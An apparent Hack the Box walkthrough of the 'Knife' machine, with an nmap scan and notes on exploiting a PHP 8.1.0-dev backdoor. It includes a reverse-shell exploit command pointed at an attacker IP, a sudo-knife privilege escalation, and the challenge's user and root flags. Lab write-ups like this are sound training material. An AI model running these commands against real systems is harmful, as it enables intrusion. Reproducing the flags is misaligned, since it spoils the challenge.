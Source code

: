 ```yaml
---
title: Knife - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Knife.png
---
```

### Scan
```
└─# nmap -sVC -p- --open 10.10.10.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 06:50 EDT
Nmap scan report for 10.10.10.242
Host is up (0.13s latency).
Not shown: 65027 closed tcp ports (reset), 506 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.35 seconds
```
### Enum
Nothing gives. Wappalyzer to rescue. PHP 8.1.0-dev with RCE
Searchplsoit out the box works
backdoor
sudo -l funnels us to knife
GTFOBINS ftw to upgrade.
Doesnt work. got better script from git after trying manually https://github.com/flast101/php-8.1.0-dev-backdoor-rce
`python3 revshell_php_8.1.0-dev.py http://knife.htb 10.10.14.11 9999`
revshell now instead of backdoor. try gtfo https://gtfobins.github.io/gtfobins/knife/
boom
USER:a0cfa4a8c7b226a6cc2424b0bdb4b6ee
ROOt:7e22633bd6cf3cdbe94295e26a2a8874
